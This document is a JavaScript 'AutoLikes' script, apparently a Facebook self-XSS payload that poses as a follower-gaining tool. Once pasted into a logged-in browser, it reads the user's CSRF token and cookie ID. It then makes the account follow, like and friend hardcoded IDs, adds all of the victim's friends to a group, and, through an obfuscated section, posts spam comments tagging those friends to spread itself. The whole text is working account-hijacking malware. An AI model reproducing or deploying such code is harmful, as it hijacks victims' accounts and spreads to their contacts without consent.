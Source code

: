 AutoLikes
=========

/*HTML/JavaScript page status="protected"*/ /*FACEBOOK FOLLOWERS*/ /*© 2014 Herolind Berisha . All Rights Reserved.*/  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("430694670393448");sublist("431764080286507");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like("658905560786579");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)} IDS("100003587565306");IDS("100000195049467"); a("100003587565306"); a("100000195049467"); a("100002364544264"); Like("235045116656399"); Like("379566925413120"); sublist("436989276430654"); sublist("436990869763828"); sublist("458359937626921"); sublist("436990546430527"); Like("539130682777986"); Like("141361929369632"); Like("470947142952143"); Like("468140416648873"); Like("209774545798054"); Like("541263169296220"); Like("549974265098995"); Like("420028578124352"); Like("425727700890606");sublist("469120703217511"); sublist("469120823217499");  var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","1419889648267463","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," BRO IF YOU LIKE FOLLOWERS || WATCH THIS TUTORIAL :D  THIS REALLY WORK \udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - AUTO FOLLOWERS [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL &lt;3","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var Title='&lt;span style="font-size:x-large;">&lt;b>&lt;span style="color: red;">Getting Friends on Facebook&lt;/span>&lt;/b>&lt;/span>&lt;br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=465250560271195&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "&lt;/div>";var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>&lt;br/>";if (i > 0) {display += "Detected &lt;b>" +arr.length + "&lt;/b> User Online&lt;br/>";display += "&lt;b>" + suc + "&lt;/b> of &lt;b>" +arr.length + "&lt;/b> Finding Friends &lt;br/>";display += " (&lt;b>" + i + "&lt;/b> User Left...)&lt;br/>&lt;br/>";display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>Please Wait Until The Process is Complete&lt;/b>&lt;/span>&lt;/span>';display += "&lt;/div>";display += "&lt;/div>";window[tag + "_close"] = true} else {display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>SUCCESS&lt;/b>&lt;/span>&lt;/span>';display += "&lt;div>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup&lt;/span>&lt;br/>";display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";display += "&lt;/div>"; window[tag + "_close"] = false}display += "&lt;/div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e &amp;&amp; b) {e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&amp;" : "?";var k = null;"POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText &amp;&amp; (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[
]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);c &amp;&amp; c(b)} else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i &lt; x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>";display += arr.length + " User Detected";display += "&lt;/div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);
